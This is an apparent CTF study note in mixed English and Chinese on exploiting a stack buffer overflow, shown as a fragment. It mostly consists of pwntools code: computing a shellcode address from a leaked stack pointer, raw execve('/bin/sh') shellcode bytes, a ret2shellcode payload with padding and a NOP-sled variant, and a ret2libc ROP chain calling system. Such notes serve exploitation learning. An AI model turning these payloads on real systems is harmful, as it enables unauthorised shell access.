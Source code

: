 ```python
leak = 0x7ffd13969c70
shellcode_offset =  leak - buf
shellcode_address = stack_leak - shellcode_offset
print("offset >>>",shellcode_offset)
print("shell addr >>>",hex(shellcode_address))
```

## 3.4 SHELLCODE FORMAT
rmb the ret2shellcode format 一定要记得有这个东西 
shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
我发现两个都可以用 然后 arch 要 amd64
```python
# shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
# shellcode = asm(shellcraft.sh())

# self shellcode payload 
payload = shellcode
payload += b'a'*(0x170 + 8 -len(shellcode))
payload += p64(shellcode_address)

```
4. why need asm nop in shellcode -> 感觉是不需要 可是 有人用 就 ok ?
```
# w2 payload
# payload = asm('nop')*100
# payload += shellcode
# payload += b'a'*(0x170 +8 - 100 -len(shellcode))
# payload += p64(stack_leak-0x150)
```

3.5 ROP
IF CHOOSE ROP
```python
libc_leak = int(ru(b" ", True), 16) - 0x93975
log.success(f"Libc leak: {libc_leak:#x}")
libc.address = libc_leak

pop_rdi = libc_leak + 0x10f75b
ret     = libc_leak + 0x10f75c
binsh   = next(libc.search(b"/bin/sh\0"))

payload = flat(
    b"A" * 0x178,
    pop_rdi,
    binsh,
    ret,
    libc.sym.system
)
sa(b"world?", payload)
```
